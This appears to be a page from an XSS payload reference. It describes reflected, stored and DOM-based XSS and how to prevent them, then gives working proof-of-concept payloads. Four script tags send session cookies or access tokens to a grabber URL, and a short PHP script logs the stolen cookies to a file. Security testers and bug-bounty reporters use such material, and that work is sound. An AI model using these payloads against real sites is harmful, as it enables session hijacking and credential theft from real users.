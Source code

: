 There are 3 main types of XSS attacks:

- **Reflected XSS**: In a reflected XSS attack, the malicious code is embedded in a link that is sent to the victim. When the victim clicks on the link, the code is executed in their browser. For example, an attacker could create a link that contains malicious JavaScript, and send it to the victim in an email. When the victim clicks on the link, the JavaScript code is executed in their browser, allowing the attacker to perform various actions, such as stealing their login credentials.

- **Stored XSS**: In a stored XSS attack, the malicious code is stored on the server, and is executed every time the vulnerable page is accessed. For example, an attacker could inject malicious code into a comment on a blog post. When other users view the blog post, the malicious code is executed in their browsers, allowing the attacker to perform various actions.

- **DOM-based XSS**: is a type of XSS attack that occurs when a vulnerable web application modifies the DOM (Document Object Model) in the user's browser. This can happen, for example, when a user input is used to update the page's HTML or JavaScript code in some way. In a DOM-based XSS attack, the malicious code is not sent to the server, but is instead executed directly in the user's browser. This can make it difficult to detect and prevent these types of attacks, because the server does not have any record of the malicious code.

To prevent XSS attacks, it is important to properly validate and sanitize user input. This means ensuring that all input meets the necessary criteria, and removing any potentially dangerous characters or code. It is also important to escape special characters in user input before rendering it in the browser, to prevent the browser from interpreting it as code.

## Proof of Concept

When exploiting an XSS vulnerability, it’s more effective to demonstrate a complete exploitation scenario that could lead to account takeover or sensitive data exfiltration. Instead of simply reporting an XSS with an alert payload, aim to capture valuable data, such as payment information, personal identifiable information (PII), session cookies, or credentials.

### Data Grabber

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```
